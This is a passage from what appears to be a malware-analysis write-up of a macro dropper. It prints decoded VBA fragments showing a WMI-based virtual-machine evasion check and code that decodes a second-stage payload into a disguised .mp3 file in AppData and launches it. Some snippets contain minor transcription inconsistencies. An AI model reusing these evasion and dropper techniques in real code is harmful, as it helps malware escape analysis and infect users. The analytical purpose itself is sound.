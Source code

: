 Now, let's just continue to read the script and when the malware call the decode string function, we just look at our decoded table.



## The evasion system


In the code below, we can see that the malware has a simple evade system, I already decoded all the ***ringmarole*** calls for the real string value.

```java
 Set fudgel = "winmgmts:\\.\root\CIMV2"
 Set twattling = fudgel.ExecQuery("SELECT Name FROM Win32_Process")

For Each p In twattling
    Dim pos As Integer
    pos = InStr(LCase(p.Name), "vmw") + InStr(LCase(p.Name), "vmt") + InStr(LCase(p.Name), "vbox")
    If pos > 0 Then
        MsgBox rigmarole("Sorry, this machine is not supported", vbCritical, "Error")

        End
    End If
Next
```

In order words, this code makes a [wmi](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) query to get all running process, and then, if some process contain any trace that is in the virtualized enviroment, an alert box will appear.


# Fake Stage 2 extraction

Using the decode table we can see when the second stage is dropped:


```java
# key ?
xertz = Array(&H11, &H22, &H33, &H44, &H55, &H66, &H77, &H88, &H99, &HAA, &HBB, &HCC, &HDD, &HEE)

wabbit = canoodle(F.T.Text, 0, 168667, xertz)
mf = Environ("AppData") & "\Microsoft\stomp.mp3"

Open mf For Binary Lock Read Write As #fn
    Put #fn, , wabbit
Close #fn

mucolerd = mciSendString("play" &  mf, 0&, 0, 0)
```

So, the stage 1 will drop a file with ***.mp3*** extension, and use the [mciSendString](https://docs.microsoft.com/en-us/previous-versions/dd757161(v=vs.85)) function to "play" that song, now we need to get the ***F.T.Text*** value and understand how the decryption process in ***canoodle*** function works.
